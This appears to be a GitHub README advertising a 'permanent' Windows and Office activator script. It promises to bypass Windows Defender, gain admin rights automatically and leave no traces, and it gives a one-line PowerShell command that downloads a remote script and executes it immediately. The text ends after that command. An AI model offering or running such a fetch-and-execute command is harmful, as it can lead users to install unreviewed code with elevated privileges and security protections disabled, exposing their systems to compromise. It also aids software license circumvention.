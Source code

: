 # 🚀 Windows & Office Permanent Activator

> ### ⚡ **ONE COMMAND** - Permanent Activation | Defender Bypass | All Versions Supported

---

## 🎯 **WHAT THIS SCRIPT DOES**

🛡️ **BYPasses Windows Defender** - Complete stealth mode  
✅ **Activates Windows PERMANENTLY** - Lifetime activation  
📊 **Activates Office PERMANENTLY** - All Office versions  
⚡ **Automatic Admin Rights** - No manual elevation needed  
🔥 **All Windows Versions** - 8, 10, 11, Server editions  
🎭 **Complete Stealth** - No traces left behind  

---

## 🚨 **IMMEDIATE ACTIVATION**

### **Method 1: One-Line Command** 🎯
```powershell
irm https://raw.githubusercontent.com/Ano-n-ymous/windows-activator-script/main/script.ps1 | iex


